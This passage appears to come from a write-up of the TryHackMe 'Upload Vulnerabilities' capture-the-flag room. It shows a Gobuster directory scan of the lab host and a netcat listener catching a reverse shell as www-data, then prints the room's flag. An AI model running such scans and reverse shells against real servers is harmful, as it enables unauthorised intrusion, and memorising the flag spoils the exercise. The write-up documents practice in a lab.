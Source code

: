 Once again, we have obtained RCE on this webserver. From here we would want to stabilise our shell and escalate our privileges, but those are tasks for another time. For now, it's time you tried this for yourself!

Navigate to `shell.uploadvulns.thm` and complete the questions for this task.

1. Run a Gobuster scan on the website using the syntax from the screenshot above. What directory looks like it might be used for uploads? (N.B. This is a good habit to get into, and will serve you well in the upcoming tasks...)

```
kali@kali:~/CTFs/tryhackme/Upload Vulnerabilities$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://shell.uploadvulns.thm
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://shell.uploadvulns.thm
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/11/09 00:19:21 Starting gobuster
===============================================================
/resources (Status: 301)
/assets (Status: 301)
Progress: 16032 / 220561 (7.27%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/11/09 00:20:13 Finished
===============================================================
```

[http://shell.uploadvulns.thm/resources/](http://shell.uploadvulns.thm/resources/)

2. Get either a web shell or a reverse shell on the machine. What's the flag in the /var/www/ directory of the server?

```
kali@kali:~/CTFs/tryhackme/Upload Vulnerabilities$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.5.136 35392
Linux f300b6aced54 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 23:20:38 up 33 min,  0 users,  load average: 0.05, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ cd /var/www/
$ ls
flag.txt
html
$ cat flag.txt
THM{YWFhY2U3ZGI4N2QxNmQzZjk0YjgzZDZk}
```
